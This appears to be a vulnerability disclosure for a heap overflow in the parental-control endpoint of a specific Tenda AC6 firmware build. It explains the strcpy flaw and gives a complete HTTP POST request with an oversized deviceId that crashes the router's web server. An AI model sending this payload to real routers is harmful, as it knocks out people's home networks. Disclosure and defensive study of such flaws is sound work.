



# Route_ Heap overflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html


##### Describe

​	I found some vulnerabilities in Tenda AC6. The firmware version is  US_AC6V1.0BR_V15.03.05.16_multi_TD01,HTTP requests can be constructed to attack HTTP services, resulting in denial of service

##### Details

​	https saveParentControlInfo fuction in IDA view




​	The deviceid we entered is directly copied to the PTR heap memory through the strcpy function. The maximum size we can enter should be 0x400 bytes, but the malloc function only applied for 0x254 bytes, resulting in heap overflow

​	So we first create a new device under the home control module, and then use burpsuit to capture packets
```
POST /goform/saveParentControlInfo HTTP/1.1

Host: 192.168.33.6

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 775

Origin: http://192.168.33.6

Connection: close

Referer: http://192.168.33.6/parental_control.html?random=0.8184817073009409&


deviceId=2a%3A3a%3A44%3A7e%3A33%3A1eaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&deviceName=ddd&enable=1&time=19%3A00-21%3A00&url_enable=1&urls=123&day=1%2C1%2C1%2C1%2C1%2C1%2C1&limit_type=0
```

​	Then modify the deviceid to overflow the heap and crash the program



You can see that httpd crashed



